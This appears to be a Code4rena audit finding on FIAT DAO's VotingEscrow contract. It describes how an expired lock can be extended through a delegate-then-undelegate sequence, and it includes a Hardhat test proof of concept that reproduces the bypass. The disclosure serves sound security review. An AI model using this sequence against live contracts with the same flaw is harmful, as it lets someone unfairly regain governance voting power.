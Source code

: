

***

## [[M-03] Inconsistent logic of increase unlock time to the expired locks](https://github.com/code-423n4/2022-08-fiatdao-findings/issues/254)
_Submitted by KIntern&#95;NA, also found by ak1, cryptphi, and scaraven_

Can not prevent expired locks being extended.

### Proof of Concept

<https://github.com/code-423n4/2022-08-fiatdao/blob/main/contracts/VotingEscrow.sol#L493-L523>

Call function function `increaseUnlockTime()` with an expired lock (locked\[msg.sender].end < block.timestamp)

*   Case 1: if sender's lock was not delegated to another address, function will be revert because of the requirement

<https://github.com/code-423n4/2022-08-fiatdao/blob/main/contracts/VotingEscrow.sol#L511>

*   Case 2: if sender's lock was delegated to another address, function will not check anything and the lock can be extended.

But in case 1, sender’s lock was not delegated to another, the sender can delegate to new address with end time of lock equal to new end time. After that he can call `increaseUnlockTime()` and move to case 2. Then sender can undelegate and the lock will be extended, and sender will take back vote power.

Here is the script :

```typescript
describe("voting escrow", async () => {
    it("increase unlock time issue", async () => {
      await createSnapshot(provider);
      //alice creates lock
      let lockTime = WEEK + (await getTimestamp());
      await ve.connect(alice).createLock(lockAmount, lockTime);
      // bob creates lock
      lockTime = 50 * WEEK + (await getTimestamp());
      await ve.connect(bob).createLock(10 ** 8, lockTime);
      //pass 1 week, alice's lock is expired
      await ethers.provider.send("evm_mine", [await getTimestamp() + WEEK]);
      expect(await ve.balanceOf(alice.address)).to.eq(0);
      //alice can not increase unlock timme
      await expect(ve.connect(alice).increaseUnlockTime(lockTime)).to.be.revertedWith("Lock expired");
      //alice delegate to bob then can increase unlock time
      await ve.connect(alice).delegate(bob.address);
      await expect(ve.connect(alice).increaseUnlockTime(lockTime)).to.not.be.reverted;
      //alice delegate back herself
      await ve.connect(alice).delegate(alice.address);
      expect(await ve.balanceOf(alice.address)).to.gt(0);
    });
```

